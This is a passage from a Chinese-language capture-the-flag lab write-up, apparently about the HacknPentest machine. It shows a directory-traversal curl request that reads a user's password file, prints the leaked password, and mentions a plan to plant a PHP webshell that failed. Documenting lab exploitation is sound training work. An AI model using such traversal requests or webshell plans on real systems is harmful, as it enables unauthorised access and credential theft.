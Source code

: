但是尝试了n次的  secrettier360=/home/saket目录穿越也尝试了啥返回值都没有

### `脑瘫记录(打CTF没用不疯的bushi)`

二个路径都说了有password.txt，发现了follow_the_ippsec密码

 ```
 └─# curl http://192.168.52.138/image.php?secrettier360=../../../home/saket/password.txt 
 <html>
 <title>HacknPentest</title>
 <body>
  <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
 </body>
 finaly you got the right parameter<br><br><br><br>follow_the_ippsec
 </html>
 ```

### 成功登陆进去

![image-20231007163707503](..\img\final\image-20231007163707503.png)

在这里发现了一些php文件（本来思路是打算改然后写入一个php马，访问页面执行木马）但是发现失败了，不能保存！！！
